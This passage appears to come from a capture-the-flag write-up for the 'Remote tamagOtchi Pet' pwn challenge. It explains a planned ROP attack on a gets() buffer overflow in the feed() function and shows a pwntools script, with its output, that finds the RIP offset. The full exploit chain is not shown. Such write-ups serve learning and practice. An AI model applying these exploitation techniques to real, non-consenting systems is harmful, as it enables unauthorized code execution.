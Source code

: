```python
p.interactive()
```
{: file="exploit_shell.py" }

# Pwn - Remote tamagOtchi Pet
> Pwn - 500pts
>
> You might remember the Tamagotchi from the late 90's and early 2000's. Good news, we have improved the tamagotchi by putting everyone's favourite pet on the web!
>
> The flag is located in the home directory on the server.

The binary and the source-code were provided for this challenge.

Looking at the challenge text we see that we can expect this to be a ROP-challenge (capitalized letters in challenge name). Another way to see this is a ROP-challenge is that we need to get a shell to view the flag, and does not have function clearly giving us the shell.

To get a shell on the server we need the following:
- The offset to the rip-register
- The libc version being used by the server
- The address of the *system()* command so that we can call `/bin/sh`

Looking through the source code we see that `gets()` have been used two places in the code, and as we know this indicates a buffer overflow. We choose to exploit the one in the `feed()` function as it requires less user-input to get there.

## Finding the offset
As in the mp3_player challenge we can find the offset with the following script
```python
from pwn import *

elf = ELF("./tamagotchi", checksec=False)
p = elf.process()

# Overflow the buffer
p.recvuntil(b">> ")
p.sendline(b"2")
p.recvuntil(b">> ")
p.sendline(cyclic(150))
p.wait()

# Read corefile to get RIP offset
core = p.corefile
offset = cyclic_find(core.read(core.rsp, 4))
log.success(f"Offset is {offset}")
```
{: file="find_offset.py" }

Which finds the offset to be 40
```bash
$ python3 find_offset.py
[+] Parsing corefile...: Done
[+] Offset is 40
```
{: .nolineno}
